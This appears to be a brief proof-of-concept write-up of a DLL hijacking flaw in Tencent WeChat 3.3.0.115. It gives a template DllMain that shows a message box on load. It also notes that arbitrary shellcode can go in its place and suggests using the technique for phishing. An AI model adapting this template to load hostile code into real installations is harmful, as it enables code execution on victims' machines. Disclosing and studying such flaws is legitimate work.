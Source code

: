 #DLL hijacking found in Tencent wechat, version 3.3.0.115

#demonstration

For example:


BOOL WINAPI DllMain(HMODULE hModule, DWORD dwReason, PVOID pvReserved)
{
	if (dwReason == DLL_PROCESS_ATTACH)
	{
		DisableThreadLibraryCalls(hModule);
		MessageBox(NULL, (LPCTSTR)TEXT("1"), (LPCTSTR)TEXT("1"), MB_OK);
	}
	else if (dwReason == DLL_PROCESS_DETACH)
	{

	}
	return TRUE;
}

#You can define any code and shellcode to execute in the DLL's entry function!!

#Very simple, we can be used for rights protection or phishing!!!
